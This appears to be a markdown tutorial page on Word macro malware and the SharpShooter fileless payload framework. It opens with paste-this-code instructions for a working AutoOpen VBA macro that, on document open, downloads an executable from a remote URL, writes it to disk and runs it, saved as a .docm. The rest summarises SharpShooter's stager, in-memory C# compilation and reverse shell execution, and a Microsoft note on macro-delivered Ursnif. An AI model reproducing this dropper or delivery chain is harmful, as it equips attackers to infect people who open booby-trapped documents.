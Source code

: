 # Word Macros + SharpShooter

https://www.sciencedirect.com/science/article/pii/S1353485817300491
https://screwnomore.wordpress.com/2015/11/06/creating-malicious-word-macros-tutorial-autorun-stub-via-word-document/
https://www.vba-market.com/2018/01/02/vba-run-time-error-2146697208-800c0008-the-download-of-the-specified-resource-has-failed/

Alt+F11 in MS Word or

![](https://i.imgur.com/NmBdUZn.png)

![](https://i.imgur.com/nvvcP5z.png)

Then Double click on ThisDocument

![](https://i.imgur.com/28Hk2dn.png)

Paste this code into the field that appears

```
Sub AutoOpen()

Dim xHttp: Set xHttp = CreateObject("MSXML2.ServerXMLHTTP.3.0")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "https://github.com/NotSurprised/LoremIpsumDolorSitAmetconsEctetur/raw/master/Reciept.exe", False
xHttp.Send

With bStrm
 .Type = 1 '//binary
 .Open
 .write xHttp.responseBody
 .savetofile "file.exe", 2 '//overwrite
End With

Shell ("file.exe")

End Sub
```

Now just save the file as filename.docm


## fileless payload
https://countercept.com/blog/analyzing-sharpshooter-part-1/
https://cloudblogs.microsoft.com/microsoftsecure/2018/09/27/out-of-sight-but-not-invisible-defeating-fileless-malware-with-behavior-monitoring-amsi-and-next-gen-av/
https://www.trendmicro.com/vinfo/us/security/news/cybercrime-and-digital-threats/kovter-an-evolving-malware-gone-fileless

1. An HTML web page that drops the stager onto a victim’s host machine;
2. A JScript/HTA/VBS stager. (In this post we will be using the JScript stager that connects back to the attacker’s machine, then downloads and executes C# code using DotNetToJavaScript. Sharpshooter provides two download mechanisms web delivery and DNS delivery. We will be analysing how Sharpshooter performs its web delivery.)
3. A C# source code file that will be downloaded, compiled and executed in memory. (In our example, we will be using an msfvenom Windows reverse Shell payload.)

![](https://i.imgur.com/XC3xSxt.png)

### Stager
The JScript file contains a series of encrypted JScript commands within it. When the file is executed, these commands are dynamically decrypted and executed at runtime. Among these decrypted commands are the dotNetToJscript (Forshaw, 2017) commands to serialize and execute the .NET assembly. These are shown in the following snippets: 

![](https://i.imgur.com/NlWrfIE.png)

Serialized_obj is a variable that contains a base 64 encoded serialized .NET assembly, which can be de-serialized and executed at run time. This .NET assembly correspond to a Sharpshooter class upon de-serialization.  

![](https://i.imgur.com/ub8fqWS.png)

The code snippet above shows a series of JScript commands that encompass the dotNetToJscript technique. These commands do the following:

De-serialize the Sharpshooter class by leveraging .NET BinaryFormatter, a class commonly used for remote procedure calls;  
Upon de-serialization, it will load the Sharpshooter class into memory.
With the Sharpshooter class loaded into memory, a new Sharpshooter object can be created from the class. With it created, we can now run its function calls:

![](https://i.imgur.com/BFuZlLW.png)

### Execution (pre-compilation)
Now that a new Sharpshooter object is loaded in memory, the attacker’s first task would be to make use of the new object’s functions to connect back to his machine to download the malicious C# source code into memory. This C# code can contain either a payload generated by mfsvenom or self-crafted by the attacker; as mentioned previously, we will be using a Windows reverse shell. The following snippets of code will show how the C# code is downloaded, compiled, and loaded into memory.

![](https://i.imgur.com/6sMK9Yr.png)

Headers and configuration information are first set, we can see the default User-Agent is Firefox.

![](https://i.imgur.com/otSAIP7.png)

Then the “DownloadString” function is used to download the payload into Sharpshooter’s process memory.

![](https://i.imgur.com/NZTeZ8a.png)

Subsequently, .NET CodeDomProvider library is used to compile the source code in memory.

![](https://i.imgur.com/vEz3gV9.png)

Thereafter, .NET reflection library would then be used to retrieve the compiled code’s program and main function. With the retrieved information, Sharpshooter is able to invoke the main function causing the MSFvenom payload to be executed.

### Execution (post-compilation)
As the reverse shell payload is in its raw assembly format, it can be directly executed by Windows (commonly referred to as “unmanaged code” in .NET). In order to execute the payload, Sharpshooter makes use of “VirtualAlloc” which allows it to allocate executable memory to hold the payload.   

![](https://i.imgur.com/qqkpgjc.png)

The code above reserves a large enough memory region within the Sharpshooter’s process region to hold our reverse shell payload.     

![](https://i.imgur.com/pGMCDnB.png)

Next, the reverse shell payload is written to the memory region that we previously allocated above. 

![](https://i.imgur.com/nAdM4CU.png)

![](https://i.imgur.com/iHMP2XA.png)

### Sample from Microsoft with macro

The Sharpshooter technique allows an attacker to use a script to execute a .NET binary directly from memory without ever needing to reside on the disk. This technique provides a framework that can enable attackers to easily repackage the same binary payload within a script. As demonstrated by the example of the two scripts, files that use the Sharpshooter technique can then be used in social engineering attacks to lure users into running the script to deliver a fileless payload.

![](https://i.imgur.com/Ce0PV6o.png)

This is the dynamic log generated by the scripts and detected by Windows Defender ATP at runtime via AMSI:

![](https://i.imgur.com/OLS8Nat.png)

these samples decode and execute the same .js script payload, a known downloader:

![](https://i.imgur.com/oGtyRSX.png)

The obfuscated macro code attempts to run an obfuscated Cmd command which in turns executes an obfuscated Powershell script. In the end, the Ursnif trojan is delivered.

![](https://i.imgur.com/j6cswOa.png)

